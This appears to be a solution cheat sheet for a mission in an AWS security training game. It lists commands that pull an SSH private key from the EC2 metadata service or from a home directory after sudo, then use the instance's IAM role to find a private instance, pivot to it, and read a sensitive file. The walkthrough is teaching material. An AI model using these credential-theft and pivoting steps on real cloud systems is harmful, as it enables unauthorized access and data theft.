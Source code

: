 # Mission 2 cheat sheet


This mission is focused on using the metadata server.


  * Given: Instance ip, user and password
  * Variables: $id, $instance_ip


$ `ssh eviluser@$instance_ip`

Log into the instance to look around.


## Route 1: Use the metadata server to get the key

$ `curl 169.254.169.254/latest/user-data`

The SSH key is written using the startup script.


$ `vim ssh_key.pem; chmod 400 ssh_key.pem`

Write the key in a file and set the permissions for SSH to accept it.


## Route 2: Look around in the linux system to get the key

$ `sudo su`

The current user is sudoer.


$ `cd /home/ec2-user; chmod 400 AWS-secgame-mission2-keypair-Evilcorp-Evilkeypair-$id`

The key is stored in the home dir.


## Once the SSH key is obtained

$ `aws --region us-east-1 ec2 describe-instances`

List the current instances using the instance's IAM role. The `--region us-east-1` parameter is required when using an EC2 instance's IAM role.


$ `ssh -i ssh_key.pem ec2-user@<private ip address of private instance>`

Log in to the second instance with no public ip address.


$ `cat ultra-sensitive-blueprints.txt`

You win!